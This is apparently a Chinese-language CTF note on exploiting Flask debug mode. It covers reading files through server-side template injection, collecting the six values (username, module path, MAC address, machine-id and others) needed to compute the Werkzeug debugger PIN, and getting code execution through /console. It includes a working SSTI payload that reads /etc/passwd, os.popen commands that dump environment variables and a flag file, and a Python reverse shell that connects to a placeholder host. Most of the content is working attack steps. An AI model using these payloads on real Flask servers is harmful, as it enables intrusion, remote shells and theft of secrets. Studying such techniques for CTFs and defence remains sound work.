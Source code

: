 Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量，乱传ssti
5.uuidnode mac地址的十进制，一定要先去:再转10进制。
```
任意文件读/sys/class/net/eth0/address或具体ls查看
/sys/class/net/eth0/address
/sys/class/net/ens33/address 
c6:f0:91:cb:86:e4
去掉冒号后int("c6f091cb86e4",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法
machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup 列表里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
```
![](.topwrite/assets/image_1736668157595.png)
然后通过程序生成pin。
生成pin码也有md5和sha1算法两种。

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
import os
os.popen('env').read()

os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```
反弹shell
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-ip",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```



![](.topwrite/assets/image_1728027706412.png)
^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>